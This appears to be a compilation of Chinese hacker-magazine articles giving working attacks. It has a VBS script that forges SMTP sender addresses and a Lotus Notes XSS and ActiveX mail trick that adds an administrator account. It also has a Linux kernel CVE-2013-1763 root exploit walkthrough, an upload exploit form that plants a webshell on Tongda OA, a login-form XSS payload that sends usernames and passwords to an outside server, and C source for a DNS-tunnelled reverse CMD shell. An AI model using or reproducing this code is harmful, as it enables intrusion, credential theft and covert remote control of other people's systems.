MIME 提供了一种可以在邮件中附加多种不同编码文件的方法，弥补了原来的信息格式的不足。实际上不仅仅是邮件编码，MIME 已成为 HTTP 协议标准的一个部分。

### NOTES 漏洞检测

- 1) 邮件病毒木马传播漏洞

电子邮件可以通过附件携带病毒木马，一个优秀的、成熟的、有安全责任感的邮件客户端软件，收到带有附件的文件后，应该正确分析附件的性质；当附件是可执行文件时，软件应对其做安全限制，用户打开该附件时，提醒用户安全风险；实际上，Gmail、Sina mail 等大部分邮件软件等都做到了这一点，分析提示附件安全风险，甚至拒绝附加有安全风险的文件。

而 Lotus Notes 添加 EXE 附件，不会进行任何提醒，直接添加即可；收件人收到 EXE 附件时，也可下载到本地或直接执行，而不会进行安全提醒，有点遗憾，如图 1 所示。
图 1

- 2) 伪造邮件漏洞

由于 SMTP 协议的缺陷，用户不能保证来自 From 域的邮件地址的真实性，再加上接收方 Notes SMTP 邮件服务器没有完善的垃圾邮件判断规则，没有限制 Internet 或内网访问，这样就不可避免地产生伪造邮件。

编程实现 SMTP 邮件发送进行漏洞利用，实际上不是困难的事情，主要有使用 .NET 的 SMTP 类、VBS 的 CDO 组件和 Socket 通讯三种方法，其中 Socket 方法更好控制底层，后面我们会看到，一些情况下需要构造邮件头，避开 Notes 的一些过滤机制，这时就要用到底层编程。当然，最简单的方法是直接 Telnet 连接服务器 25 端口，按照 SMTP 底层通讯过程发送伪造邮件。下面我们编写一段 VBS 源代码实现这个过程，源代码如下：

```vb
Set sh = WScript.CreateObject("WScript.Shell")
WScript.Sleep 1000
sh.Run "telnet.exe XX.XX.XX.XX 25"
' XX.XX.XX.XX 为邮件接收方的 smtp 服务器 IP
WScript.Sleep 1000
' 向 telnet 发送我们平时录入的命令
sh.SendKeys "helo xx.com.cn{ENTER}"
WScript.Sleep 1000
sh.SendKeys "MAIL FROM:<被伪造人@xx.com.cn>{ENTER}"
WScript.Sleep 1000
sh.SendKeys "RCPT TO: <接收人@xx.com.cn>{ENTER}"
WScript.Sleep 1000
sh.SendKeys "DATA{ENTER}"
WScript.Sleep 1000
sh.SendKeys "From: <被伪造人@xx.com.cn>{ENTER}"
WScript.Sleep 1000
sh.SendKeys "Subject: hello{ENTER}"
WScript.Sleep 1000
sh.SendKeys "To: <接收人@xx.com.cn>{ENTER}"
WScript.Sleep 1000
sh.SendKeys "X-Priority: 1{ENTER}"
WScript.Sleep 1000
sh.SendKeys "X-mailer: aaMail 1.6{ENTER}"
WScript.Sleep 1000
sh.SendKeys "Mime-Version: 1.0{ENTER}"
WScript.Sleep 1000
sh.SendKeys "Content-Type: text/plain;charset=""GB2312""{ENTER}"
WScript.Sleep 1000
sh.SendKeys "Content-Transfer-Encoding: quoted-printable{ENTER}"
WScript.Sleep 1000
sh.SendKeys "how are you{ENTER}"
WScript.Sleep 1000
sh.SendKeys ".{ENTER}"
WScript.Sleep 1000
sh.SendKeys "QUIT{ENTER}"
WScript.Sleep 1000
```

保存为 VBS 文件后运行，看一下接收人的邮箱，果然收到伪造发件人的邮件了，是不是挺简单的。当然，如果要构造图文并茂的邮件，需要研究 MIME 的原理和构造，邮件头每一个字符都有讲究，哪怕一个字符不对都不能收到邮件。另外，可以自己构造邮件后，就可以做很多事情了，后面的跨站脚本漏洞就利用了这个手法。

想象一下，这个漏洞和上一个漏洞结合可能产生的安全风险：攻击者假冒领导或同事发送邮件给相关人员，其中带有木马链接或附件；收件人一旦打开附件或链接，终端就被完全控制；而且攻击者还可以在外网通过跳板发起攻击，来源不可追溯，进而攻击者可以以木马为代理跳板攻击整个内网！这可以说是一个入侵者所能想象的最好的入侵路径了！

## 3）Notes 跨站脚本 0Day

很多邮件客户端不能在性能和安全性之间平衡，支持富文本，通过过滤 HTML 源程序中能够使脚本程序运行的代码获取安全性，但如果 Script 元素中出现漏洞，导致可在 HTML 邮件中直接嵌入脚本程序或跨站脚本的发生。

根据 Notes 提供的资料，Notes 不支持脚本语言，从根本上杜绝了脚本漏洞的发生。我测试了几个场景，确实没有发现这个漏洞，似乎没有问题。

确实没有问题吗？通过测试，发现 Notes 在内部邮件发送中确实没有问题，因为 Notes 本身无法构造恶意 HTML 邮件。如果在邮件中插入恶意脚本，Notes 将对脚本代码进行过滤或加密转换，比如通过 htmlencode 加密转换，使脚本不可执行，这就是 Notes 不识别脚本的秘密。但通过 SMTP 服务器接受其它邮件客户端软件或 Webmail 的邮件时，问题就出现了。

我们来看看其它邮件客户端软件或 Webmail 如果构造带有恶意 HTML 代码的邮件，会出现什么情况。我们通过伪造邮件发送软件，构造一个恶意 HTML 代码的邮件，内容如下：

```html
<script>alert("1")</script>
```

由于在邮件中构造 HTML 代码，并对代码进行 Base64 加密，上面这个代码加密后内容为“PHNjcmlwdD5hbGVydKGxMaGxPC9zY3JpcHQ+”。使用上面的程序可以自己构造邮件发送，构造的邮件头相关内容如下：

```text
Content-type:text/html;content-transfer-encoding:base64


```

构造好恶意邮件后，通过邮件发送给 Notes，打开这封邮件，看看此时的情况，如图 2 所示。
图 2

为什么 Notes 收到远程带脚本的邮件就会产生跨站脚本执行呢？因为远程邮件进行了 Base64 加密，而 Notes 将远程邮件内容从 Base64 转换为可读内容时，对这种可读内容中的恶意脚本没有过滤和加密，导致了问题的发生。我没有看到过有关 Notes 这种漏洞的介绍，这应该是个 0Day 漏洞吧。

## 4）邮件对象脚本执行漏洞

Notes 存在一个严重的漏洞，可以通过构造一个特殊邮件，获得任何打开该邮件的计算机系统的管理权限，危害性不可估量。

我们来构造这种特殊的邮件，先在 Notes 客户端新建邮件，选择收件人后，点击菜单“创建”项下的“对象”，如图 3 所示。
图 3

在接下来弹出的对话框中选择“创建新的控件”，可以选择任意的控件对象，如 ScriptControl Object，如图 4 所示（存在此问题的控件有很多种）。
图 4

在随后打开的控件中，点击右键获得对象属性，然后选择“当读取文档时启动对象”复选框，如图 5 所示。
图 5

接着点击右键获得对象属性，选择“编辑事件”，在随后打开的对话框中的“Initialize”段中增加如下代码，如图 6 和图 7 所示。
图 6
图 7

收件人在读文档的时候，ActiveX 就会执行；还可发挥想象力，将其中的命令改为任意的命令行语句，比如打开 3389 端口、自动下载并运行木马、开共享等。此时查看“控制面板→系统用户”，可以看到多了一个用户 aaa，属于 administrators 组，如图 8 和图 9 所示。
图 8
图 9

这是 Notes 的一个可怕的安全漏洞，任何人只要打开一份恶意邮件，就将执行这些邮件中的脚本命令，甚至主机被控制！前提是攻击发起人必须拥有 Notes ID。

## 总结

貌似安全的 Notes 的这几个漏洞可谓风险巨大，Notes 用户收到的邮件真是危机四伏，不知真假，不知是否有后门。我已经将这些漏洞问题提交给测试单位的 Notes 管理员，通过与 Notes 公司联系，部分已经得到修正。

## Linux kernel 本地权限提升漏洞的简单分析

文/图 修炼中的柳柳

Linux kernel CVE-2013-1763 本地权限提升漏洞由 Mathias Krause 于 2013 年 2 月 24 日公布，漏洞影响的内核版本范围在 3.3.x-3.7.9。常见的 Linux 发行版，如 Fedora、Ubuntu、Arch、x86 和 x64 等均受影响。根据漏洞介绍，该 EXP 主要是利用非特权用户可发送 Netlink 消息，导致 sock_diag_handlers[] 数组越界访问，允许以内核上下文执行恶意代码。

内核态 Shellcode 与用户态的作用大不相同，内核态的 Shellcode 布置非常精妙，因为 Shellcode 是工作在内核态 Ring0 上的，要尽量把大多数工作放在用户态，仅把关键工作放在内核态，以免稍有差错引起内核的崩溃。常见内核态的本地提权 Shellcode 函数名通常被 EXP 编写者命名为 kernel_code，一般的流程是：保存当前寄存器值→get_root→恢复其余原来的值，iret 退出内核态。get_root 常见的做法有两种，以前常用的方法是暴力搜索 task_struct，自从发现 thread_info 替换 task 的方法后，这种方法便显得费力不讨好了，同时也有人提出了直接用 commit_creds 和 prepare_kernel_cred 来实现的方法。

commit_creds 和 prepare_kernel_cred 均为内核函数，其功能我们只要知道可以获取 root 就 OK 了。在用户态编写这段 Shellcode 时，我们显然不知道这两个函数的内核地址，因此需要一个 `find_symbol` 函数来读取 `/proc/kallsyms`。我们来查找这两个函数的地址，如图 1 所示。
图 1

有了内核 Shellcode 这把神兵利器在手，接下来的工作便是寻找漏洞成因了。根据漏洞提示，知道了这次的漏洞成因是覆盖内核函数数组导致的，所以还是 EXP 和内核代码一起来看比较容易入手。根据漏洞代码开始处调用的 `socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)`，猜测问题可能出在 Netlink 处。Netlink Socket 用于从用户层发送消息到内核层。查看 man page（man 7 netlink），确定 Netlink 对应的协议簇必须填 `AF_NETLINK`，第二个参数必须是 `SOCK_RAW` 或 `SOCK_DGRAM`，第三个参数指定 Netlink 协议类型，可以是一个自定义的类型，也可以使用内核预定义的类型。类似于平时编写 TCP/UDP Socket 一样，Netlink Socket 函数返回的套接字可以交给 bind 等函数调用。Netlink 的 bind() 函数把一个本地 Socket 地址（源 Socket 地址）与一个打开的 Socket 进行关联，只是不再用 TCP/UDP 的 struct sockaddr，而是用 struct sockaddr_nl。在这个 EXP 中，我们仅观察给内核发送消息的情况。我们发送一个 IP 数据包，则数据包结构为“IP 包头+IP 数据”，同样地，Netlink 的消息结构是“netlink 消息头部+数据”。Netlink 消息头部使用 struct nlmsghdr 结构来描述：

```c
///// from man page
struct nlmsghdr {
    __u32 nlmsg_len;   /* Length of message including header. */
    __u16 nlmsg_type;  /* Type of message content. */
    __u16 nlmsg_flags; /* Additional flags. */
    __u32 nlmsg_seq;   /* Sequence number. */
    __u32 nlmsg_pid;   /* PID of the sending process. */
};


```

对应 EXP，可以看到它是这样填充 nlmsghdr 的，如图 2 所示。
图 2

EXP 注释掉了原初始化 sock_diag_req.sdiag_family，并在判断系统版本的时候才填上，由此我们能猜到漏洞成因或多或少与 sock_diag_req.sdiag_family 相关，如图 3 所示。
图 3

EXP 接下来的工作便是构造一个“nop slide + jump”的 Netlink 消息，然后 send 过去。前面已经说过，Netlink 的消息结构是“netlink 消息头部+数据”，在内核中会由 __sock_diag_rcv_msg 来处理，而问题也正出自这个内核函数。它包含在 /usr/src/net/core/sock_diag.c 中，我们打开来看，如图 4 所示。
图 4

函数 __sock_diag_rcv_msg() 会从 Netlink 的请求消息中获取 sdiag_family 值。很明显，内核代码只是检查 hndl 是否为 NULL，而没有检查 req->sdiag_family 是否比 AF_MAX 小。变量 hndl 是 sock_diag_handler 指针，在 13 行可以看到 sock_diag_handlers 数组长度为 AF_MAX。因此，我们可以在用户态中发送一个比 AF_MAX 大的 netlink SOCK_DIAG_BY_FAMILY 请求。AF_MAX 的长度是多少呢？grep 下内核代码，就可以知道 AF_MAX 定义为 40，如图 5 所示。
图 5

我们发送一个比 AF_MAX 大的 Netlink 请求，内核函数 __sock_diag_rcv_msg() 的调用将触发 hndl->dump()。由于 hndl 的值是用户可控的，我们可以让这个函数指针指到内核的任何地方，当然，乱指只会引起内核的崩溃。所以，剩下的问题是如何让指针指向我们的 nop slide。比较旧的 Shellcode 放置方法一般是 mmap 到 NULL 地址，触发内核漏洞后让其类似 null pointer deference，直接就能跳到 shellcode 中执行。但自从内核限制了 mmap_min_addr，使 mmap 不能再映射第 0 个 page（x86 是 4096），自然就不能再用这招了，这也导致了不少内核 bug 无法触发，沦落为 kernel dos 而不是 kernel local root。但这个漏洞的 EXP 却明显 mmap 到了内存的 0x10000-0x120000，不受 mmap_min_addr 限制，再在映射的内存空间构造“nop slide + jump”。根据我的测试，mmap 低地址从 0x5000-0x170000 都是个不错的选择。因为有 hndl->dump()，我们可以在内存 sock_diag_handlers[AF_MAX] 以后的内存地址中，找一个落在 0x10000-0x120000 处的值，以让我们作为函数跳到 nop slide 中。

```text
[g0t3n@localhost tmp]$ ./poc Fedora
[+] resolved symbol commit_creds to 0xc0462b00
[+] resolved symbol prepare_kernel_cred to 0xc0462d40
[+] resolved symbol sock_diag_handlers to 0xc0d9c180
[+] resolved symbol nl_table to 0xc0d9c2e4
family=89
mmapping at 0x5000, size = 0x120000
uid=0, euid=0
sh-4.2# ^C


```

根据分析，由于 sock_diag_lock_handler 的 mutex lock 应该会始终被锁住，EXP 重启前无法再被使用，但测试过程中却发现偶尔能再次 root 成功，颇为疑惑。

知道了漏洞成因，修复漏洞就简单了，只要在 __sock_diag_rcv_msg 中添加对 req->sdiag_family 的大小进行检测就可以了。

## 通过 OA 协同办公系统任意文件上传 0Day 漏洞剖析

文/图 江苏省信息安全测评中心 王坤

Office Anywhere 通达 OA 协同办公系统广泛应用于政府、金融、医疗、外贸、教育和电信等行业。前段时间该系统发布了 Office Anywhere 2013 版，文件版本号为 6.5.13.122，经测试发现，此版本存在任意文件上传漏洞，涵盖 2008 至 2013 最新版本。据官方描述，系统中的 Web 服务器采用 Apache+Nginx 双引擎，数据库采用 Oracle 提供的 Mysql 企业级数据库。打包以 EXE 形式发布，安装使用非常简单，安装完成后，可通过“通达应用服务控制中心”对 Web 服务、数据库服务等进行启用、停止等操作，此次测试安装在 C 盘下的 MYOA 目录中。

进入 Web 目录，尝试查看 PHP 脚本代码时，发现所有代码均采用 Zend 加密，要先解密才能阅读。这里推荐使用软件“黑刀 Dezender 4”，通过选择目录，进行批量解密，如图 1 所示。
图 1 利用黑刀 Dezender 4 批量解密

### 漏洞分析

存在漏洞的文件为 /general/vmeet/privateUpload.php，此文件允许用户上传文件，保存为自定义的文件名，代码如下，保存文件时调用 td_move_uploaded_file 函数。

```php
if ( is_uploaded_file( $uploadFile ) )
{
    $pos = strrpos( $uploadFileName, "." );
    $len = strlen( $uploadFileName );
    $extendType = substr( $uploadFileName, $pos, $len );//获取上传文件扩展名
    if ( strtolower( $extendType ) == ".php" )//第1次判断，将扩展名利用 strtolower 转换为小写后，判断若是 .php 类型，则文件上传失败
    {
        echo "upload file forbidden";//若上传的文件为 php 类型，则输出提示信息，中止程序执行
        exit();
    }
    $localFileName = $_GET['fileName'];
    $ZLCHAT_ATTACH = "upload/";
    $localFile = "{$ZLCHAT_ATTACH}/temp/".$localFileName;
```

```php
if ( !td_move_uploaded_file( $uploadFile, $localFile ) )//此处为保存文件
{
    echo "upload failed";
}
}
```

查看 td_move_uploaded_file 函数，此函数调用 is_uploadable 对自定义的文件名进行判断，是否为非法文件名。

```php
function td_move_uploaded_file( $filename, $destination )
{
    if ( !is_uploadable( $destination ) )//调用 is_uploadable
    {
        message( _( "禁止" ), _( "禁止创建此类型文件" ) );
        button_back();
    }
}
```

is_uploadable 函数对保存的文件名进行了多次判断。代码可见下，采用正则表达式对 $FILE_NAME 变量进行判断，若出现“*.php.*”或“*.php3.*”则返回 FALSE，再判断是否为定义的非法后缀名。

```php
function is_uploadable( $FILE_NAME )
{
    if ( preg_match( "/\\.(php|php3)\./i", $FILE_NAME ) )//第2次判断，文件中若出现“.php.”或“.php3.”则返回 FALSE，禁止上传
    {
        return FALSE;
    }

    global $UPLOAD_FORBIDDEN_TYPE;
    global $UPLOAD_LIMIT;
    global $UPLOAD_LIMIT_TYPE;

    $POS = strrpos( $FILE_NAME, "." );//查找 $FILE_NAME 变量最后一次出现的位置

    if ( $POS === FALSE )
    {
        $EXT_NAME = $FILE_NAME;//若文件名中无“.”，则文件后缀名为文件名
    }
    else
    {
        $EXT_NAME = strtolower( substr( $FILE_NAME, $POS + 1 ) );
        //获取文件后缀名
    }

    if ( find_id( $UPLOAD_FORBIDDEN_TYPE, $EXT_NAME ) )//第3次判断，文件后缀名是否为定义的非法文件后缀，全局变量 $UPLOAD_FORBIDDEN_TYPE = "php,php3,php4,php5,pht,jsp,asp,aspx,";
    {
        return FALSE;
    }
}
```

```php
}
if ($UPLOAD_LIMIT == 0) // 在 /inc/td_config.php 文件中，全局变量
$UPLOAD_LIMIT = 1;
{
    return TRUE;
}
if ($UPLOAD_LIMIT == 1)
{
    return !find_id($UPLOAD_LIMIT_TYPE, $EXT_NAME); // 第 4 次判断，此次判断与第 3 次类似，$UPLOAD_LIMIT_TYPE = "php,php3,php4,php5,";
}
if ($UPLOAD_LIMIT == 2)
{
    return find_id($UPLOAD_LIMIT_TYPE, $EXT_NAME);
}
return FALSE;
}
```

在文件上传处理的过程中，虽然进行了四次过滤判断，但由于采用的是黑名单的方式，忽略了空格的存在，从而导致任意文件上传漏洞。

客户端在上传文件时，将 WebShell 保存为 jpg 格式，在第 1 次判断中，“.jpg” 不等于“.php”，返回假，继续执行程序。构造 fileName 变量为“fjhh.php ”（php 后面有空格），在第 2 次判断中，保存的文件名“fjhh.php ”在正则中匹配为空，从而绕过判断，进入第三、四次判断，“php ”（php 后面有空格）也并未在全局变量 `$UPLOAD_FORBIDDEN_TYPE`、`$UPLOAD_LIMIT_TYPE` 中，返回真，进入文件保存环节。在保存文件时，Windows 系统会自动忽略文件名末端的空格，文件保存成功。由于空格的 URL 编码为“+”，因此构造 fileName 为“fjhh.php+”。

## 漏洞利用示例

以下为利用 EXP 修改如下代码中表单 action 提交地址，保存为 html 文件，选择 WebShell 文件（文件保存为 jpg 类型），上传后即可访问 `http://vul.com/general/vmeet/upload/temp/fjhh.php` 获得 WebShell。

```html
<form enctype="multipart/form-data"
action="http://vul.com/general/vmeet/privateUpload.php?fileName=fjhh.php+"
method="post">
    <input type="file" name="Filedata" size="50"><br>
    <input type="submit" value="Upload">
</form>


```

利用搜索引擎搜索“Office Anywhere 2013 网络智能办公系统”，如图 2 所示。
图 2 利用搜索引擎搜索关键词

更改 form 表单中的 action 地址，选择保存为 jpg 类型的 WebShell 文件，上传成功后如图 3 所示。
图 3 上传成功，显示空白

上传成功后用菜刀连接，结果如图 4 所示。
图 4 利用菜刀连接

## 临时修补方案

- 对文件 `/general/vmeet/privateUpload.php` 进行权限验证，禁止未授权访问；
- 修改 `is_uploadable` 函数代码，处理上传文件时，对保存的文件类型采用白名单方式进行判断过滤。

### 从乐蜂网账户劫持看非登录状态下 XSS 利用

文/图 unity

某天偶然用 Web 扫描器扫描乐蜂网，结果一打开登录口就发现了一个 XSS，还发现多了几个第三方登录入口，如图 1 所示。
图 1

很明显后端没有过滤，但是怎么利用呢？一般来说，XSS 都是针对已经登录的用户，比如后台管理员。那么，非登录状态的难道就没有利用价值了？仔细想想，还是可以的。

看了一下页面结构，发现只有一个表单，由此我们完全可以修改它的 onsubmit 事件，让浏览器把用户名和密码乖乖地发到我们的服务器，然后再登录乐蜂网。我们可以选择让浏览器以加载资源的方式发送，或者在服务器后台转发，这里我们采用第一种方法。

```javascript
var f = document.forms[0];
f.onsubmit = function() {
    var user = document.getElementById('loginName').value;
    var cred = document.getElementById('passwd').value;
    var line = user + ":" + cred;
    // 提交账户信息
    new Image().src = "http://localhost/cookie.php?a=" + escape(line);
    // 执行原有的登录检查
    return checklogin();
}


```

为了让页面看起来没有变化，我们使用如下的 URL，记得把 returnback 参数编码一下再发送：  
`https://passport.lefeng.com/login.jsp?returnback=http://www.lefeng.com/"style="display:none"></a><script>这里填入我们的代码</script><a href="#"`

好了，打开浏览器，自己 XSS 一下自己，登录成功后，看一下 Nginx 的日志，如图 3 所示。看到这个结果，是不是也很想试一下？
图 3

结合一些社工技巧，加上 CSRF 攻击方式，比如先强制退出登录，再跳转到 XSS 页面，就有很大的几率拿到对方的账户密码，即可尽情发挥了。

（完）

### DNS 隧道反弹式 CMD Shell 的实现

文/图 DebugMe

大多数情况下，目标系统的防火墙会阻断访问外网的连接，只放行一些常用的网络协议，例如 DNS，因此我们可以利用这一点，将数据包嵌入 DNS 协议中，这样防火墙就会允许这些数据包访问网络。本文就将利用这种技术实现一个反弹式 CMD Shell。

为了实现一个远程 CMD Shell，我们通常有两种方式：一是自己写一个命令解释程序来执行远程发送过来的命令，二是利用 Windows 系统中现成的 CMD 程序。对于前者，工作量较大，容易出错；而后者工作量非常小，并且不容易出错，只需要解决与 CMD 进程之间的通信问题即可，非常易于使用，本文将使用这种方式实现。Windows 平台中的进程间通信方式有多种，其中一种是通过管道技术，下面对其进行简单介绍，其他通信方式读者可查阅相关资料。

在 Windows 中有两种管道：匿名管道和命名管道。匿名管道属于单向管道，一般用于父进程和子进程之间的通信，可以通过 Win32 API `CreatePipe` 来创建匿名管道，它会返回两个句柄，一个用于读，另一个用于写。我们可以通过 `ReadFile` API 从读句柄中读取数据，`WriteFile` API 向写句柄中写入数据。为了使用匿名管道在父子进程之间通信，父进程需要将管道句柄传递给子进程，这可以通过继承的方式来实现。命名管道本文不涉及，不再做介绍，下面介绍具体的实现方法。

首先创建用于通信的匿名管道，由于和 CMD 子进程之间的通信是双向的，因此需要创建两个匿名管道。`CmdWritePipe` 和 `ShellReadPipe` 是一对，`CmdReadPipe` 和 `ShellWritePipe` 是一对。

```cpp
static HANDLE CmdWritePipe = NULL;   // CMD 向里面写入数据
static HANDLE ShellReadPipe = NULL;  // 父进程从里面读取数据
static HANDLE CmdReadPipe = NULL;    // CMD 从里面读取数据
static HANDLE ShellWritePipe = NULL; // 父进程向里面写入数据
SECURITY_ATTRIBUTES SecurityAttr;
SecurityAttr.nLength = sizeof(SECURITY_ATTRIBUTES);
SecurityAttr.lpSecurityDescriptor = NULL;
SecurityAttr.bInheritHandle = TRUE; // 非常重要，设置为 TRUE，表明句柄可以被继承
if (!CreatePipe(&ShellReadPipe, &CmdWritePipe, &SecurityAttr, 0))
{
    fprintf(stderr, "Failed to create read pipe.\n");
    goto Error;
}
if (!CreatePipe(&CmdReadPipe, &ShellWritePipe, &SecurityAttr, 0))
{
    fprintf(stderr, "Failed to create write pipe.\n");
    goto Error;
}
```

然后创建 CMD 子进程，并将其标准输入、标准输出、标准错误输出设置为我们创建的管道句柄。

```cpp
StartInfo.hStdInput = CmdReadPipe;    // CMD 从该句柄中读取数据
StartInfo.hStdOutput = CmdWritePipe;  // CMD 将输出写入到该句柄
StartInfo.hStdError = CmdWritePipe;
// 创建 CMD 子进程
if (!CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &StartInfo, &PsInfo))
{
    fprintf(stderr, "Failed to create cmd process. %d\n", GetLastError());
    goto Error;
}


```

这样，我们只要将命令写入到 `ShellWritePipe` 中，CMD 就可以从 `CmdReadPipe` 中读取并执行，CMD 将执行后输出的信息写入到 `CmdWritePipe` 中，我们就可以从 `ShellReadPipe` 中读取到执行的结果。

在得到 CMD Shell 后，接下来需要做的就是将数据封装在 DNS 协议的数据包中。下面简单介绍下 DNS 协议数据包的格式，其报文格式如图 1 所示。
图 1

报文由 12 字节的首部和 4 个长度可变的字段组成，16bit 的标志字段如图 2 所示。
图 2

- QR：0 表示查询报文，1 表示响应报文；
- Opcode：通常值为 0（标准查询），其他值为 1（反向查询）和 2（服务器状态请求）；
- AA：表示授权回答（authoritative answer）；
- TC：表示可截断的（truncated）；
- RD：表示期望递归；
- RA：表示可用递归；
- 随后的 3bit zero 段必须为 0；
- Rcode：返回码，通常为 0（没有差错）和 3（名字差错）。

后面 4 个 16bit 字段用于说明最后 4 个变长字段中包含的条目数。问题部分的报文格式如图 3 所示。
图 3

查询名为要查找的名字，由一个或者多个标示符序列组成。每个标示符以首字节数的计数值来说明该标示符长度，每个名字以 0 结束，计数字节数必须是 0～63 之间，该字段无需填充字节。如 `gemini.tuc.noao.edu` 转换后的格式如图 4 所示，可以实现一个函数来完成这种转换。
图 4

```c
static PCHAR DomainToDnsFormat(PCSTR Domain, PCHAR DnsFormat)
{
    UCHAR PrefixCount = 0;
    PCHAR Prefix = DnsFormat;
    DnsFormat++;
    while (*Domain != '\0') {
        if (*Domain != '.') {
            *DnsFormat = *Domain;
            DnsFormat++;
            Domain++;
            PrefixCount++;
        } else {
            *Prefix = PrefixCount;
            Prefix = DnsFormat;
            DnsFormat++;
            Domain++;
            PrefixCount = 0;
        }
    }
    *Prefix = PrefixCount;
    *DnsFormat = '\0';
    return (DnsFormat + 1);
}


```

每个问题有一个查询类型，通常查询类型为 A（由名字获得 IP 地址）或者 PTR（获得 IP 地址对应的域名）。

资源记录部分的报文格式如图 5 所示。DNS 数据包的最后 3 个字段：回答字段、授权字段和附加信息字段均采用资源记录 RR（Resource Record）的相同格式。
图 5

域名是记录中资源数据对应的名字，格式和查询名字段格式相同。类型说明资源数据的类型，文本为 16，类通常为 1，指 Internet 数据；生存时间字段是客户程序保留该资源记录的秒数。

了解了 DNS 数据报文的格式后，下面介绍一下本文将数据嵌入 DNS 报文的方法。从图 1 可以看出，DNS 报文可以包含叫做“额外信息”的资源记录，我们可以将自己的数据以文本类型（类型 16）的形式嵌入在这个地方。需要注意的是，文本类型的格式是文本长度（只能用一个字节表示，即能存放的实际文本的最大长度为 255），后面紧接着文本。函数 `CreateQueryPacket` 为指定域名创建一个包含 1 个额外资源信息记录的 DNS 数据包。

```c
static PVOID CreateQueryPacket(PCSTR Domain, ULONG Size, PULONG RawPacketLength)
{
    PCHAR QueryPacket;
    PDNS_HEADER DnsHeader;
    PCHAR CurrentPos;

    QueryPacket = WrapperAllocBuffer(Size); // 分配空间
    if (QueryPacket == NULL)
        return NULL;

    ZeroMemory(QueryPacket, Size);
    DnsHeader = (PDNS_HEADER)QueryPacket;
    DnsHeader->RequestCount = htons(1); // 查询问题数为 1
    DnsHeader->Identifier = 0x3333;
    DnsHeader->ExtraResCount = htons(1); // 额外资源数为 1
    CurrentPos = (PCHAR)(DnsHeader + 1);
```

```c
CurrentPos = DomainToDnsFormat(Domain, CurrentPos);
*(PUSHORT)CurrentPos = htons(1);
*((PUSHORT)CurrentPos + 1) = htons(1);
CurrentPos += 4;
CurrentPos = DomainToDnsFormat(Domain, CurrentPos);
*(((PUSHORT)CurrentPos)++) = htons(16); // 文本类型
*(((PUSHORT)CurrentPos)++) = htons(1);
*(((PULONG)CurrentPos)++) = 0x12345678;
*RawPacketLength = (ULONG)(CurrentPos - QueryPacket);
return QueryPacket;
}
```

函数 `QueryPacketWrapper()` 用于将数据封装在一个 DNS 查询数据包中。

```c
PVOID QueryPacketWrapper(PVOID Data, ULONG Length, PULONG RetLength)
{
    PCHAR WrapPacket;
    ULONG RawPacketLength;
    WrapPacket = CreateQueryPacket("www.baidu.com", 1024, &RawPacketLength);
    if (WrapPacket == NULL)
        return NULL;
    *(PUSHORT)(WrapPacket + RawPacketLength) = htons((USHORT)Length + 1);
    *(PUCHAR)(WrapPacket + RawPacketLength + 2) = (UCHAR)Length;
    memcpy(WrapPacket + RawPacketLength + 3, Data, Length); // 嵌入真实数据
    *RetLength = Length + RawPacketLength + 3;
    return WrapPacket;
}
```

函数 `QueryPacketUnwrapper()` 用于从 DNS 数据包中取出嵌入的真实数据。

```c
PVOID QueryPacketUnwrapper(PVOID Data, ULONG Length, PULONG RetLength)
{ // 主要就是根据数据包格式计算偏移
    PCHAR CurrentPos;
    CurrentPos = (PCHAR)Data;
    CurrentPos += sizeof(DNS_HEADER);
    CurrentPos += strlen(CurrentPos);
    CurrentPos += 5;
    CurrentPos += strlen(CurrentPos);
    CurrentPos += 9;
    *RetLength = ntohs(*(PUSHORT)CurrentPos) - 1;
    return (CurrentPos + 3);
}
```

函数 `CreateResponsePacket()`、`ResponsePacketWrapper`、`ResponsePacketUnwrapper` 用于构造响应数据包。到这里还有一个问题需要解决：反弹式 CMD Shell 是从内网中主动向外网发起连接（或发送数据），而 DNS 一般采用的是 UDP 协议。UDP 协议在 Socket 编程模型中不需要调用 `connect()` 来主动发起连接，因此我们需要定时向外面发送通知数据包，以告知主控端 CMD Shell 所在主机的 IP 地址和通信端口，这样主控端才能和 CMD Shell 通过 UDP 协议进行交互。

```c
ULONG __stdcall CmdShellNotifyThread(PVOID Param)
{
    ULONG NotifyFlag = 0x33333333; // 标志，说明该数据包是通知包
    ULONG BytesRead;
    for (;;)
    {
        Sleep(1000); // 每隔 1 秒钟发送一个
        if (!SendResponseDataToProxy(&NotifyFlag, sizeof(ULONG), &BytesRead))
            return 0;
    }
    return 1;
}
```

主动端在启动时，需要检测收到的数据包是否是通知数据包，若是，则与被控端交互，否则继续监听检测。

```c
for (;;)
{
    DataLength = recvfrom(ServerSocket, CommandBuffer, 512, 0,
        (SOCKADDR*)&ClientAddr, &ClientAddrLength);
    RealData = QueryPacketUnwrapper(CommandBuffer, DataLength,
        &RealDataLength);
    NotifyFlag = *(PULONG)RealData;
    if (NotifyFlag == 0x33333333) // 判断是否是通知包
        break;
}

// 创建线程，从被控端接收数据
RecvThreadHandle = CreateThread(NULL, 0, ServerReceiveThread,
    (PVOID)ServerSocket, 0, &ThreadId);
if (RecvThreadHandle == NULL) {
    fprintf(stderr, "Failed to create receive thread.\n");
    closesocket(ServerSocket);
    return;
}

// 向被控端发送一个换行符，以便显示提示符
CommandBuffer[0] = '\n';
CommandBuffer[1] = '\0';
WrapData = ResponsePacketWrapper(CommandBuffer, 1, &WrapDataLength);

sendto(ServerSocket, WrapData, WrapDataLength, 0, (SOCKADDR*)&ClientAddr, sizeof(SOCKADDR_IN));
WrapperFreeBuffer(WrapData);

// 循环接收用户输入，并将其封装在 DNS 响应数据包中发送给被控端
for (;;)
{
    fgets(CommandBuffer, 510, stdin);
    WrapData = ResponsePacketWrapper(CommandBuffer, strlen(CommandBuffer), &WrapDataLength);
    sendto(ServerSocket, WrapData, WrapDataLength, 0, (SOCKADDR*)&ClientAddr, sizeof(SOCKADDR_IN));
    WrapperFreeBuffer(WrapData);
}
```

图 6 是本文实现的 CMD Shell 在交互时 Wireshark 的截图。从图中可以看到 Wireshark 将数据包识别成了合法的 DNS 数据包，具有一定的迷惑性，也表明了我们编写的 DNS 隧道反弹式 CMD Shell 可以成功执行。

图 6

### 打造 NTFS 文件系统下的数据恢复软件

文/图 爱无言

